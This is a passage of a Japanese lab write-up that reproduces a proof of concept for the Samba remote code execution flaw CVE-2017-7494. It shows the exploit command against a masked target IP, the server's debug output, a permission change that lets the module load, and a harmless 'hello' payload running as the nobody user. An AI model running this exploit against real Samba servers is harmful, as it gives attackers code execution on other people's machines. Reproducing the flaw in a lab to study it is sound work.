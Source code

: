 #### PoCを実行

##### 攻撃側

```
$ python2.7 exploit.py -t 163.XXX.XXX.XXX -m /home/samba/libpoc.so
```

##### Samba側(デバッグ内容)

```
Probing module '/home/samba/libpoc.so'
Error loading module '/home/samba/libpoc.so': /home/samba/libpoc.so: 共有オブジェクトファイルを開けません: 許可がありません
is_known_pipename: /home/samba/libpoc.so unknown
```
メッセージから分かるとおり、権限がなく失敗しています。  
パーミッションを少し変更してみます。  
パーミッションは「drwx --- --x」となり、パブリックフォルダだと考えれば、ありそうな感じ。
```
$ ls -l /home/
drwx------ 2 samba samba 4096  5月 31 00:24 2017 samba

$ chmod 701 /home/samba
$ ls -l /home/
drwx-----x 2 samba samba 4096  5月 31 00:24 2017 samba
```

##### 追記(2017/5/31)

　後々調べてみると、アクセスできない理由は、共有オブジェクトファイルをロードする権限が**nobody**ユーザ権限であるかららしい。  
下記はPoCのオブジェクトファイル内で「id」コマンドを実行してみた結果。
```
Probing module '/home/samba/libpoc.so'
Module '/home/samba/libpoc.so' loaded
uid=99(nobody) gid=0(root) 所属グループ=0(root),99(nobody)
```
**/home/samba**のパーミッションが700だと、当然ながらnobodyユーザではアクセスすることができない。
```
$ sudo -u nobody cat /home/samba/libpoc.so
cat: /home/samba/libpoc.so: 許可がありません
```

#### 再度PoCを実行してみます。  

libpoc.so内のコードが実行されれば成功です。

##### 攻撃側

　先ほどと同様に実行します。
```
$ python2.7 exploit.py -t 163.XXX.XXX.XXX -m /home/samba/libpoc.so
```

##### Samba側(デバッグ内容)

```
Probing module '/home/samba/libpoc.so'
Module '/home/samba/libpoc.so' loaded
hello from cve-2017-7494 poc! ;)
```
「hello from cve-2017-7494 poc! ;)」が表示され、なんとか実行することができた。
